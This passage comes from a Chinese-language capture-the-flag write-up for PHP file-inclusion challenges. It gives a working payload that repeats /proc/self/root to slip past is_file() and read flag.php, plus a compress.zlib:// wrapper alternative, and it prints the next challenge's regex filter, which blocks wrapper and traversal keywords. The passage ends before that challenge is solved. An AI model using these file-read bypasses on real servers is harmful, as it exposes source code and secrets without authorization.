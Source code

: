 ```
    echo "hacker!";

```

这题过滤掉了filter，这个协议就用不了，这里增加一点知识点

**linux里`/proc/self/root`是指向根目录的**

也就是如果在命令行中输入`ls /proc/self/root`，其实显示的内容是根目录下的内容

这里我们多次重复即可绕过`is_file`

payload

```
?file=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php
```

另一种解法

```
compress.zlib://flag.php
```

应该是把flag.php当成压缩文件来读取，具体的不知道。



### web114

```
error_reporting(0);
highlight_file(__FILE__);
function filter($file){
    if(preg_match('/compress|root|zip|convert|\.\.\/|http|https|data|data|rot13|base64|string/i',$file)){
        die('hacker!');
    }else{
        return $file;
    }
}
$file=$_GET['file'];
echo "师傅们居然tql都是非预期 哼！";
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```

`compress`和`root`被ban掉了，

山重水复疑无路，柳暗花明又一村
